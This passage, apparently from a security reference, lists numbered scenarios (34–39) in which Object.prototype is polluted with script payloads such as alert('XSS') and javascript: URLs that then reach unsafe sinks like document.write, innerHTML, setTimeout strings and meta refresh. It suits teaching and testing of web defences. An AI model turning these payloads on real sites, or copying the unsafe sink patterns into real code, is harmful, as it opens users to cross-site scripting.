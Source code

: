 
### 34. Polluted WebSocket Message
**Scenario**: Polluted message property rendered unsafely.
```javascript
Object.prototype.data = '<script>alert("XSS")</script>';
const ws = { onmessage: (e) => document.write(e.data) };
ws.onmessage({}); // XSS
```

---

### 35. Polluted setTimeout
**Scenario**: Polluted timeout handler executes script.
```javascript
Object.prototype.delay = 'alert("X setTimeout")';
const opts = {};
setTimeout(opts.delay, 1000); // XSS if string is executed
```

---

### 36. Polluted Input Value
**Scenario**: Polluted input value rendered unsafely.
```javascript
Object.prototype.value = '<script>alert("XSS")</script>';
const input = {};
document.querySelector('input').value = input.value;
document.write(document.querySelector('input').value); // XSS
```

---

### 37. Polluted SVG Attribute
**Scenario**: Polluted SVG attribute triggers script.
```javascript
Object.prototype.xlinkHref = 'javascript:alert("XSS")';
const svg = {};
document.body.innerHTML = `<svg><use xlink:href="${svg.xlinkHref}"></use></svg>`; // XSS
```

---

### 38. Polluted Meta Refresh
**Scenario**: Polluted meta content triggers script.
```javascript
Object.prototype.content = '0;url=javascript:alert("XSS")';
const meta = {};
document.head.innerHTML = `<meta http-equiv="refresh" content="${meta.content}">`; // XSS
```

---

### 39. Polluted CSS Injection
**Scenario**: Polluted CSS property executes script.
```javascript
Object.prototype.cssText = 'expression(alert("XSS"))';
const style = {};
document.body.style.cssText = style.cssText; // XSS in older browsers
```

---